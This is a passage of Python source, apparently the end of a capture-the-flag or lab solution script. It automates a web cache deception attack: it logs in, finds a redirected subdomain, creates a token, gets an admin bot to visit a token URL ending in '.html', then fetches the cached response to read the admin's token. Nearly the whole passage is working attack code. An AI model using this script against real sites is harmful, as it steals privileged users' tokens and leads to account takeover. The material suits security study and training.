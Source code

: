 ```python
        exit(1)

def get_subdomain():
    print('[*] Discovering redirected subdomain...')
    r = session.get(BASE_URL, allow_redirects=True)
    match = re.search(r'https://([a-z0-9]+)\.' + re.escape(BASE_DOMAIN), r.url)
    if not match:
        print('[-] Failed to extract subdomain.')
        exit(1)
    sub = match.group(1)
    print(f'[+] Subdomain: {sub}')
    return f'https://{sub}.{BASE_DOMAIN}'

def generate_token(subdomain):
    print('[*] Creating new token...')
    r = session.post(urljoin(subdomain, '/api/token'))
    data = r.json()
    token_id = data['tokenId']
    print(f'[+] Token ID: {token_id}')
    return token_id

def report_url(subdomain, token_id):
    report_url = f'{subdomain}/api/token/{token_id}.html'
    print(f'[*] Reporting URL to admin: {report_url}')
    r = session.post(
        urljoin(subdomain, '/api/report'),
        json={'url': report_url}
    )
    if r.ok and r.json().get('success'):
        print('[+] Admin visit triggered.')
    else:
        print('[-] Report failed:', r.text)
        exit(1)

def try_fetch_token(subdomain, token_id):
    print('[*] Trying to fetch cached token response...')
    target_url = f'{subdomain}/api/token/{token_id}.html'
    headers = {
        'Accept': 'application/json, text/plain, */*',
    }
    r = session.get(target_url, headers=headers)
    print('[+] Response:')
    print(r.text)

def main():
    login()
    subdomain = get_subdomain()
    token_id = generate_token(subdomain)
    report_url(subdomain, token_id)
    try_fetch_token(subdomain, token_id)

if __name__ == '__main__':
    main()
```
